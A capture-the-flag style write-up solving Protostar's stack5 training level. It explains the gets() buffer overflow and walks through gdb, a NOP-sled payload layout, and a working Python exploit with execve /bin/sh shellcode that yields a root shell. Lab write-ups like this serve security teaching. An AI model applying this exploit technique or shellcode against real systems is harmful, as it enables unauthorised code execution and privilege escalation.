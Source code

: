 # Stack5 Solution

## C Code

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Vulnerability

Ok, so now we have some *very* minimal C code with just a `char buffer[64]` and get(buffer)` From this, we need to get a **root shell**.
You may be thinking, *how do we do that*. The answer lies in **executing shellcode put on the stack** by abusing `gets()`. Let me explain.

You know how we can **edit the stack** by using a **buffer overflow**? We can also **put values on the stack** and if **EIP points to it**,
the stack value(s) will **execute**. This is preventable by using a system called **NX**, which stands no **No-Execution**. This system
**prevents stack values from being executed**, which is useful to prevent this style of attack.

Now that we know that **the stack is executable**, can we **put shellcode on the stack, then execute** it by **overwriting the return
address to point to that shellcode**? **Yes, we can**! So let's do it!

First, we need to **make sure that the shellcode is always executed**. To do that, we use something called a **NOP sled**. A `nop`
instruction basically just **moves to the next instruction**. So we can place a **bunch of NOPs above our shellcode** (shellcode is the code
needed to create a shell) and then we basically have some **room for error**, since we could return **anywhere inside of the NOP sled** and
still execute our shellcode.

**So let's exploit!**

## Exploit

First, let's **reuse** the **padding** from [stack4](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack4/) so we do not have to check what the padding is *again*.

We first need the **return address's** memory address to use as a estimate of the NOP sled address.

```bash
(gdb) break *main+22
(gdb) r
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

SIGSEV - Segmentation Fault
```

Now, since **the next thing on the stack is the memory address, let's get ESP**, since that will point to the return address.

```bash
(gdb) p $esp
$1 = (void *) 0xbffff7d0
```

Now that we know **the memory address** of the return address, we can make the return address point to **it's memory address + ~30 bytes** to reach the middle of the NOP sled.

But now we need **shellcode**. Let's use the **32 bit execve** `/bin/sh` **shellcode** from **ShellStorm**. I have linked it in the resources section. 

Here is our **payload layout**:

```
[ 72 bytes of padding ]
[ 4 bytes to overwrite EBP ]
[ 4 bytes to overwrite return address ]
[ NOP sled containing 100 NOPs ]
[ Shellcode ]
```

Ok, so let's build the exploit script:

```python
import struct

padding = "A" * 72
ebp = "LLLL"
ret_addr = struct.pack("I", 0xbffff7d0 + 30)
shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73"
        "\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x89\xc1\x89\xc2\xb0\x0b"
        "\xcd\x80\x31\xc0\x40\xcd\x80"
)
nop_sled = "\x90" * 100

print(padding + ebp + ret_addr + nop_sled + shellcode)
```

To **properly run**, we need to redirect the stdin to stdout with the `cat` command.

Result:

```bash
$ (python /tmp/exploit.py; cat) | /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALLLL????????????????????????????????????????????????????????????????????????????????????????????????????????1?Ph//shh/bin????°
                                      ̀1?@̀

whoami
root
```

## Resources

* [C Code](https://exploit.education/protostar/stack-five/)
* [/bin/sh ShellCode from ShellStorm](https://shell-storm.org/shellcode/files/shellcode-811.html)
* [LiveOverflow's Solution on YouTube](https://www.youtube.com/watch?v=HSlhY4Uy8SA)
* [Wikipedia Article on the NX Bit](https://en.wikipedia.org/wiki/NX_bit)

